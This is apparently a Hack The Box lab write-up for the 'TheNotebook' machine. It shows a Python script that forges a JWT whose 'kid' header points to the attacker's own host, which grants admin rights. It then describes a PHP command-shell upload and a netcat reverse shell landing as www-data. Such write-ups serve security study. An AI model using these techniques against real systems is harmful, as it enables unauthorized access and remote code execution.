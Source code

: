 ![[Pasted image 20210707202445.png]]

Ok so we this web server uses JWT instead of cookies, so what? 
* Notice in the header where it says "kid"
	* kid stands for "key-id" and it is the way the server verifies the token
* what's more interesting is the syntax of its value, specifically that it starts with http://
* Try pointing it back to a webserver on our box and get a hit
* Now notice in the payload where it says "admin_cap" which stands for admin capabilities
* If we can change this to a true value, the test account will have admin privelages

Craft our own payload with all the information the same, except make our own RSA256 key when creating it and change the kid parameter to point to the key on our machine
```python 
#!/usr/bin/python3

import jwt

private_key = '''
-----BEGIN RSA PRIVATE KEY-----
[snip]
-----END RSA PRIVATE KEY-----
'''

payload = {"username":"test","email":"test@test.htb","admin_cap":"true"}
token = jwt.encode(payload, private_key, algorithm='RS256', headers={"kid":"http://10.10.14.25:8000/jwt_secret.key"})
print(token)
```
Change our cookie to be this newly printed token and reload the webpage -> hits our webserver -> we now have admin privelages on the web site

Being an admin gives access to a "file upload" page
![[Pasted image 20210707203532.png]]
Also notice under the new "notes" page in the admin panel that uploaded php files get executed (eye roll)

Upload a php script that executes system commands when passed as paramter 'cmd', view the page, see we have rce
![[Pasted image 20210707204302.png]]
Use new rce to go for reverse shell
```bash
hunter@kali ~/htb/thenotebook/www$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.230] 45240
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```